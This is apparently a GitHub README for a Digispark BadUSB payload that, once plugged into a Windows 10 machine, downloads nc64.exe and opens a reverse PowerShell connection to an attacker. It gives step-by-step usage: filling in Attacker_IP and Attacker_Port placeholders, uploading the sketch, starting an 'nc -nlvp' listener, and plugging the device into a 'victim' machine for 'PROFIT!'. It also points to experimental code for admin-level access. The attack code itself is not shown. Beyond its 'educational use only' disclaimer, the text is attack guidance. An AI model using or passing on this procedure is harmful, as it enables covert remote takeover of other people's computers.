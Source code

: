 **EDUCATIONAL USE ONLY, USE AT YOUR OWN RISK!**
# Digispark - Reverse shell, Windows 10

Downloads `nc64.exe` from:    
https://github.com/int0x33/nc.exe

Calls the attacker, using downloaded `nc64.exe` and opens up a powershell access from attacker.
## How to use:

*Designed, using Finnish keyboard in victim machine.*     
- Check [DigiKeyboardFi](https://github.com/therealhalonen/DigiKeyboardFi) for support it.    
- Download the .ino, or copy the code.    
- Open the file or paste the content to/in Arduino IDE.
- Define:
	-  `-ArgumentList \'Attacker_IP\', \'Attacker_Port\',`
- Upload to Digispark
- Establish the listener to attacker machine:
	- `nc -nlvp PORT`

- Plug in to victim machine
- **PROFIT!**
---
**Note:**   
Folders:   
- [experimental](https://github.com/therealhalonen/PhishSticks/tree/master/digispark/digispark_revshell/exp)
	- Contains experimental stuff, to open up the Powershell from victim as Admin user for attacker to get "instant roots"
- [old](https://github.com/therealhalonen/PhishSticks/tree/master/digispark/digispark_revshell/old) 
	- One of the first drafts to initially getting the reverse shell to work